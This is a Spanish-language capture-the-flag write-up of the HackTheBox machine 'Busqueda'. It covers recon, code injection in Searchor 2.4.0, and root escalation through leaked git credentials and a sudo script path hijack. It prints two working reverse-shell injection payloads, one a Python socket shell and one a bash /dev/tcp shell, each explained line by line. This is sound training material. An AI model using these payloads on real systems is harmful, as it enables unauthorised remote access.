 ```yaml
---
title: Busqueda
date: '2023-08-12'
lastmod: '2023-08-05'
tags:
  ['labs', 'HackTheBox', 'Code Injection', 'Harcoded Credentials', 'RCE', 'Searchor 2.4.0', 'Flask']
draft: true
summary: 'Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo "Python". Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. Para escalar privilegios a "root", descubrimos credenciales dentro de un archivo de configuración "Git", lo que nos permite iniciar sesión en un servicio local "Gitea". Además, descubrimos que un usuario específico puede ejecutar un script de verificación del sistema con privilegios de "root". Al utilizar este script, enumeramos los contenedores "Docker" que revelan las credenciales de la cuenta "Gitea" del usuario "administrador". Un análisis más profundo del código fuente del script de verificación del sistema en un repositorio `Git` revela un medio para explotar una referencia de ruta relativa, otorgándonos ejecución remota de código (RCE) con privilegios de `root`. '
images: ['/static/images/htb/busqueda/busqueda.png']
---
```


![Portada](/static/images/htb/busqueda/busqueda.png)

<TOCInline toc={props.toc} exclude="Introduccion" />

## Reconocimiento

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.11.208 con el comando ping.

```js
  ping -c 4 10.10.11.208
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/busqueda/ping.png)

### Nmap

```js
  sudo nmap -sV -sS --min-rate 5000 10.10.11.208 -O
```

![Nmap](/static/images/htb/busqueda/nmap.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 8.9p1       |
| **_80/tcp_**     | http     | Apache httpd 2.4.52 |

## Enumeracion

### Puerto 80

Nos dirigimos a la web page y nos topamos con Searcher.
![web](/static/images/htb/busqueda/web1.png)
Bajamos y nos encontramos con un formulario e informacion acerca de la aplicacion. Vemos que
esta utilisando [Flask](https://flask.palletsprojects.com/en/2.3.x/) y [Searchor 2.4.0](https://pypi.org/project/searchor/)
![web](/static/images/htb/busqueda/web2.png)

Realizando una busqueda en Google sobre Searchor version 2.4.0 nos encontramos con que es vulnerable a [ejecucion de codigo](https://security.snyk.io/package/pip/searchor/2.4.0).
Encontramos dos repositorios de PoC en los cuales apoyarnos para realizar la explotacion.
Vamos a hacer la demostracion de dos maneras distinas pero que nos van a conducir al mismo resultado.

### Manera 1

Abrimos Burpsuite y activamos Foxyproxy para capturar todas las solicitudes que realizemos.
Ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/web4.png)

Damos click en el boton Search.
![web](/static/images/htb/busqueda/web3.png)

En Burpsuite, capturamos la peticion y la mandamos al repeater.
![web](/static/images/htb/busqueda/web5.png)

Una vez alli, en el campo query, colocamos la siguiente linea de codigo:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('TU_IP',PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Esta línea de código es un ejemplo de un shell reverso en Python, que se utiliza comúnmente en pruebas de penetración y actividades maliciosas para obtener acceso remoto a un sistema. Vamos a desglosar lo que hace:

`import socket,subprocess,os`: Importa los módulos necesarios. _socket_ para la comunicación de red, _subprocess_ para ejecutar comandos y _os_ para interactuar con el sistema operativo.

`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`: Crea un nuevo objeto de socket para la comunicación _TCP/IP_.

`s.connect(('TU_IP',PUERTO))`: Intenta conectar el socket al IP y puerto especificados. Nota: '_TU_IP_' y '_PUERTO_' son marcadores de posición y deben ser reemplazados por una dirección IP y un puerto válidos respectivamente.

`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`: Estas tres líneas redirigen la entrada estándar (0), la salida estándar (1) y la salida de error estándar (2) del proceso al socket. Esto significa que cualquier entrada o salida del proceso se enviará a través del socket, permitiendo la interacción remota.

`p=subprocess.call(['/bin/sh','-i'])`: Ejecuta una shell (_/bin/sh_) con una opción _-i_ que indica que se debe ejecutar en modo interactivo. Esto permite que el atacante ejecute comandos en el sistema comprometido.

Damos click derecho sobre la linea de codigo y la URLencodeamos. Hacemos los cambios pertinentes, colocando nuestra IP y el puerto que tengamos levantado en escucha. Enviamos y recibiremos una shell en donde teniamos nuestro netcat en escucha.
![web](/static/images/htb/busqueda/web6.png)

### Manera 2

De la manera 2 tambien ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/altweb.png)
Pero en este caso, no interceptamos la solicitud, directamente
colocamos la reverse shell en el campo del formulario y la enviamos.

```python
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```

Esta línea de código es otra variante de un shell reverso, pero esta vez utilizando una combinación de Python y Bash para obtener acceso remoto a un sistema. Desglosemos lo que hace:

`__import__('os')`: Esta es una forma alternativa en Python para importar un módulo, en este caso, el módulo os.

`.system(...)`: Es una función del módulo os que se utiliza para ejecutar comandos del sistema operativo desde un script de Python.

`'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"'`: Este es el comando que se ejecuta. Desglosemos este comando Bash:

`bash -c`: Ejecuta el comando Bash especificado en la cadena que sigue.

`bash -i`: Inicia una nueva instancia de Bash en modo interactivo.

`& /dev/tcp/10.0.0.1/4444`: Redirige la salida estándar de la shell al socket TCP en la dirección IP 10.0.0.1 y el puerto 4444. Bash tiene una característica poco conocida que permite crear conexiones de red utilizando /dev/tcp/HOST/PORT.

`0>&1`: Redirige la entrada estándar (0) al mismo lugar que la salida estándar (1), lo que significa que la entrada y la salida de la shell se enviarán a través de la conexión TCP.

![web](/static/images/htb/busqueda/altweb2.png)

Y recibimos la shell.
![web](/static/images/htb/busqueda/altweb3.png)

## Escalada de privilegios

Ya dentro, vemos que somos el usuario svc. Donde estamos hay un directorio .git.
![web](/static/images/htb/busqueda/web7.png)

En el archivo config vemos unas credenciales, volvemos al puerto 22 para probar.
![web](/static/images/htb/busqueda/web8.png)

Efectivamente, las credenciales son validas.
![web](/static/images/htb/busqueda/ssh.png)

Ejecutamos el comando `sudo -l`. El comando sudo -l se utiliza en sistemas basados en Unix y Linux para mostrar los privilegios de ejecución específicos que tiene un usuario en relación con los comandos que pueden ejecutar utilizando el comando sudo.

El comando sudo permite a los usuarios ejecutar comandos con los privilegios de superusuario (también conocido como "root"), lo que les brinda acceso a operaciones y configuraciones que normalmente requerirían permisos administrativos. Sin embargo, no todos los usuarios pueden ejecutar cualquier comando con sudo. El archivo de configuración sudoers determina qué comandos y acciones pueden ejecutar los usuarios mediante sudo.

Al usar sudo -l, un usuario puede verificar los comandos y las operaciones específicas que se les permite ejecutar con sudo. Esto es útil para comprender rápidamente el alcance de los privilegios que un usuario tiene sin necesidad de intentar ejecutar comandos y recibir mensajes de error si no se les permite.
![web](/static/images/htb/busqueda/ssh1.png)

Podemos ejecutar comandos como el usuario con altos privilegios. Vemos que podemos ejecutar el script full-checkup.
Lo que debemos de hacer es crear un archivo con el mismo nombre y mandar una shell con privilegios de root a nuestra maquina atacante
![web](/static/images/htb/busqueda/ssh2.png)

En nuestra maquina escribimos un [script de python](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) que nos dara una reverse shell.
![web](/static/images/htb/busqueda/ssh3.png)

Luego, levantamos un servidor con python para poder transferirlo a la maquina victima.
![web](/static/images/htb/busqueda/ssh4.png)

Antes de volver a la maquina victima, abrimos con nc el puerto que pusimos en el script de python para que
este en escucha. Le damos permisos de ejecucion y lo ejecutamos.
![web](/static/images/htb/busqueda/ssh5.png)

En nuestra maquina atacante recibimos una shell con maximos privilegios. Consiguiendo asi la flag root.txt .
![web](/static/images/htb/busqueda/ssh7.png)

`URLs de utilidad:`

- [Python eval code execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/)

- [Python privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)

